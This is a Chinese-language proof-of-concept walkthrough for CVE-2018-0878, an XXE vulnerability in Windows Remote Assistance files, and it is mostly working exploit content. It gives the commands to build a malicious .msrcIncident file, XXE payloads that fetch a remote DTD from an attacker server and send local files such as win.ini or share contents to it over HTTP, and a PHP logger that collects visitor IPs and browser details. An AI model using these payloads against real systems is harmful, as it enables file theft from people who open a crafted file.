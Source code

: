 CVE: CVE-2018-0878

POC: https://www.exploit-db.com/exploits/44352/

1、使用msra生成一个远程协助文件

```
msra /saveasfile c:\test\1.msrcIncident 123456789012
```

编辑文件内容，替换为payload


2、payload内容如下


```
<?xml version="1.0" encoding="UTF-8" ?>  
<!DOCTYPE zsl [  
<!ENTITY % remote SYSTEM "http://192.168.62.131:8080/xxe.xml">  
%remote;%root;%oob;]>
```

**注：**

192.168.62.131为测试服务器，可使用kali linux，建立httt服务器的命令如下：

```
python -m SimpleHTTPServer 8080
```

kali linux目录下创建文件xxe.xml，内容如下：

```
<!ENTITY % payload SYSTEM "file:///C:/windows/win.ini">  
<!ENTITY % root "<!ENTITY &#37; oob SYSTEM 'http://192.168.62.131:8080/?%payload;'> ">  
```

**注：**

%对应的HTML字符实体的十进制表示为&#37，十六进制表示为&#x25，所以说xxe.xml也可改成如下格式：

```
<!ENTITY % payload SYSTEM "file:///C:/windows/win.ini">  
<!ENTITY % root "<!ENTITY &#x25; oob SYSTEM 'http://192.168.62.131:8080/?%payload;'> ">  
```

payload为读取文件`C:/windows/win.ini`并发送到测试服务器

3、将修改后的1.msrcIncident在另一个测试windows系统下双击打开

弹框提示文件出错，此时payload执行，测试服务器获得文件`C:/windows/win.ini`内容

4、其他可用payload

(1) 访问文件共享中的文件内容：

```
<!ENTITY % payload SYSTEM "file:////192.168.62.130/1/test.txt">  
<!ENTITY % root "<!ENTITY &#x25; oob SYSTEM 'http://192.168.62.131:8080/?%payload;'> ">  
```

(2) 访问web

获得当前系统ip

统计浏览器信息，操作系统，ip的php实现代码：

```
<?php
$data=$_SERVER['HTTP_USER_AGENT'].";".substr($_SERVER['HTTP_ACCEPT_LANGUAGE'], 0, 5).";".$_SERVER["REMOTE_ADDR"]."\r\n";
echo $data;
file_put_contents("log.txt",$data,FILE_APPEND);
?>
```

命令执行：

	略

内网探测：

	略

SSRF：

	略
